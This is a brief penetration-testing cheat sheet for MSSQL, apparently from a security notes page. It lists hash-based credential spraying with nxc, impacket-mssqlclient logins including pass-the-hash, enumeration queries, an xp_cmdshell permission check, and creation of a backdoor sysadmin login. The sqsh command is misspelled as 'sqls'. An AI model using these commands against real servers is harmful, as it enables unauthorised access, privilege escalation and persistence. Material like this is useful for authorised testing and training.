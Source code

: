 ```
nxc mssql $IP -u users.txt -H hash --no-brute --continue-on-success
```


* Connect via impacket-mssqlclient 

```
impacket-mssqlclient user:password@$IP
```

```
impacket-mssqlclient -windows-auth user:password@$IP
```

```
impacket-mssqlclient -k -no-pass user@$IP #kerberos
```

```
impacket-mssqlclient -windows-auth user:@$IP -hashes :NTHASH #ntlm-auth
```

* Connect via sqsh

```
sqls -S $IP -U user -P password
```

* Commands 

```
# Get the version of MSSQL
> SELECT @@version

# Get current username
> SELECT user_name()

# Get all users
> SELECT * FROM sys.database_principals

# Get databases
> SELECT * FROM master.dbo.sysdatabases

# Switch to the database
> USE <database>

# List tables
> SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>


# Check if the current user have permission to execute OS command
> USE master
> EXEC sp_helprotect 'xp_cmdshell'

# Get linked servers
> EXEC sp_linkedservers
> SELECT * FROM sys.servers

# Create a new user with sysadmin privilege
> CREATE LOGIN tester WITH PASSWORD = 'password'
> EXEC sp_addsrvrolemember 'tester', 'sysadmin'

# List directories
> xp_dirtree '.\'
> xp_dirtree 'C:\inetpub\'
> xp_dirtree 'C:\inetpub\wwwroot\'
> xp_dirtree 'C:\Users\'
```